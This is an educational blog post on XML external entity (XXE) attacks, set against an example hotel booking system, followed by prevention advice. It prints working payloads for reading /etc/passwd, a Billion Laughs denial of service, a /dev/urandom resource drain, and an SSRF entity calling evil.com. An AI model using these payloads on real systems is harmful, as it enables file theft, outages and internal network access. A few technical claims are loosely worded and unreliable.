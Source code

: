 ```yaml
---
title: XXE Attacks
contributor: Gert J. Oberholzer
avatar: kobus-oberholzer.png
description: A summary on external entity injections, how they are used in an attack and how to prevent most of them
date: 2022-10-13
tags: [XML, Security]
id: xxe-attacks
relatedPost: react-xss
---
```


In recent years, there has been an increase in the number of XXE (external entity attacks) injections. These attacks take advantage of vulnerabilities in XML processing to inject malicious code into a system. This can allow attackers to gain access to sensitive data or even take control of the system altogether. Fortunately, there are steps you can take to prevent XXE attacks. In this blog post, we will explore some of the most common methods used by attackers and how you can protect your systems against them.

## Table of Contents
<!-- toc -->

## What is an XXE attack?

An XXE attack is a type of attack that exploits vulnerabilities in an XML parser to deliver an XXE payload. This can allow attackers to read local files, send HTTP requests to internal resources, and even perform denial-of-service attacks.

To prevent XXE attacks, it's important to keep your software up to date and to use a **web application firewall** (WAF) to block malicious requests.

## How do XXE attacks work?

An XXE attack occurs when an attacker exploits a vulnerability in an weakly configured XML parser to gain access to sensitive information. The attacker sends specially crafted XML data to the vulnerable parser, which then processes the data and returns the results to the attacker. This can be used to view files on the server, execute commands, or even gain access to other servers on the network.

XXE attacks are often possible due to poor input validation. For example, if an application allows users to upload XML files, but does not properly validate the contents of those files, an attacker could upload a malicious file that contains code that would be executed by the XML parser.

To prevent XXE attacks, it is important to properly validate all input, especially input that comes from untrusted sources. All XML parsers should be configured to disable the processing of external entities by default. If external entities must be processed for some reason, strict validation should be used to ensure that only trusted entities are processed.

## How XXE attacks are used

To demonstrate the different ways XXR attacks work, let's set a scene. A booking system for a hotel is being attacked and we need to evaluate all potential attack vectors.

### Retrieve local files

A very basic way XXE payloads can be used is to retrieve files from the server. Let's say the original usage of XML file was to retrieve information on a booking made by a client like so:

    <?xml version="1.0" encoding="UTF-8"?>
    <bookingId>23</bookingId>

We can adjust this XML data to retrieve files we specify and let it return the results.

    ```xml
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
       <!ELEMENT foo ANY>
       <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <bookingId>&xxe;</bookingId>
    ```

This is considered an **in-band** attack as the vector of attack is clear and the information retrieved is in the form of a response. Another type of attack is called an **out-of-band** attack like a blind attack.

### Blind attack

Blind attacks are when there are some forms of security measures in place that would prevent you from directly requesting privileged information. There is however still a potential attack surface that is just more hidden, by doing a bind attack you may potentially stumble upon a server response in the shape of an error message that reveals more information than intended, an example would be if the parser's error response is disclosing local files which the attacker can choose to infiltrate.

### Denial of service attack

If the attention is not necessary to retrieve data but to deny service, maybe a popular band is performing and the bad actor wants to have a peaceful stay by preventing other potential guests from booking.

This would be the ideal scenario to dispatch a DOS attack. One such attack type is called A Billion Laughs attack.

    ```xml
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE lolz [
       <!ENTITY lol "lol">
       <!ELEMENT lolz (#PCDATA)>
       <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
       <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
       <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
       <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
       <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
       <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
       <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
       <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
       <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
    ```

Now the reason for the name has become prevalent, let's discuss how it works. First, lol9 will be called which in turn calls lol8 that calls lol7... and this will continue turning kb's of data into GB's within moments.

Another popular way of achieving the same outcome can be done using remote code execution. Asuming the server operates on Linux, an endless recursive file can be called as follows.

    ```xml
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
        <!ELEMENT foo ANY>
        <!ENTITY xxe SYSTEM "file:///dev/urandom">
    ]>
    <foo>&xxe;</foo>
    ```

The goal of this type of attack is to use all server resources possibly impacting application availability

### Server-side request forgery (SSRF)

Server-side request forgery happens when the payload appears to be from internal systems, which grants the attacker access to local resources as if authorized.

    ```xml
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
        <!ELEMENT foo ANY>
        <!ENTITY xxe SYSTEM "http://evil.com/">
    ]>
    <foo>&xxe;</foo>
    ```

This type of attack can be used as the door to a multitude of other attacks and exploits, such as remote code execution, DOS attacks, or just simply gaining access to privileged information, all while leaving a backdoor for future attacks.

{% img "ssrf-attack.png" "SSRF XXE Attack" "lazy" %}

## How to prevent XXE attacks

XXE attacks exploit vulnerabilities in the way that XML parsers process input. An attacker can supply malicious input to an XML parser in order to cause it to execute unintended actions or access sensitive information.

There are several methods that can be used to prevent XXE vulnerabilities. First, make sure that your XML parser is configured to disable external entity processing. This will ensure that the parser does not automatically resolve external references when processing input.

Next, use positive security controls such as input validation and output encoding. Input validation ensures that all input supplied to the XML parser is well-formed and does not contain any malicious code. Output encoding ensures that any data retrieved from the XML document is properly escaped so that the browser cannot execute it.

Finally, keep your software up to date. Newer versions of XML parsers typically include fixes for XXE vulnerabilities as they are discovered. By keeping your software up to date, you can help to protect yourself against these types of attacks.

## What to do if you're a victim of an XXE attack

If you're a victim of an XXE attack, you should first report the incident to your organization's security team. They'll be able to investigate the attack and take steps to prevent it from happening again.

You should also change any passwords that may have been compromised in the attack. Be sure to use strong, unique passwords for all of your accounts. And finally, stay vigilant for any suspicious activity on your accounts or devices.

## Conclusion

XXE attacks are a serious security threat, but they can be prevented with the right precautions. Be sure to disable external entity parsing in your XML parser, and use a whitelist approach when processing untrusted XML input. With these measures in place, you can rest assured that your applications will be safe.

If any of these topics interests you and you would like to prevent other potential vulnerabilities like this, we offer a complete course on developing with security matters in mind at [websecurity-academy](https://websecurity-academy.com/).
